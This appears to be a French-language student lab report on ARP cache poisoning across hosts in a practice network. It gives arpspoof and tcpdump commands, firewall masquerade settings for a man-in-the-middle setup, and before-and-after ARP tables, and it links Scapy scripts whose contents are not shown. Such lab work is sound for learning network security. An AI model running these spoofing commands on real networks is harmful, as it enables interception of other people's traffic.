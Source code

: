 # 🌞 Empoisonnez la table ARP de node2.tp1.my  
Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```
Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```

Ouvrir un autre terminal dans node1.tp1.my  
```bash
sudo arpspoof -t 10.1.1.101 10.1.1.253
```

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

# 🌞 Ecrire un script Scapy qui fait le travail de arpspoof  
Le [script python](./arp_spoof.py)  
La [capture Wireshark](./arp_spoof_2.pcap)  

# 🌞 Mettre en place un MITM ARP  
```bash
sudo firewall-cmd --add-masquerade --permanent  
sudo firewall-cmd --reload  
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:05   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253               ether   00:15:5d:01:01:03   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans node1.tp1.my  
```bash
sudo tcpdump -w arp_spoof_1.pcap
```  

Ouvrir un terminal dans node1.tp1.my  
Le [script python](./arp_mitm_1.py)  
La [capture Wireshark](./arp_mitm_1.pcap)  
  
```bash
sudo python arp_mitm_1.py
```  

Ouvrir un terminal dans node2.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.253                ether  00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```  

Ouvrir un terminal dans dhcp.tp1.my  
```bash
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.1.1.101               ether   00:15:5d:01:01:01   C                     eth0
10.1.1.11                ether   00:15:5d:01:01:04   C                     eth0
10.1.1.100               ether   00:15:5d:01:01:01   C                     eth0
```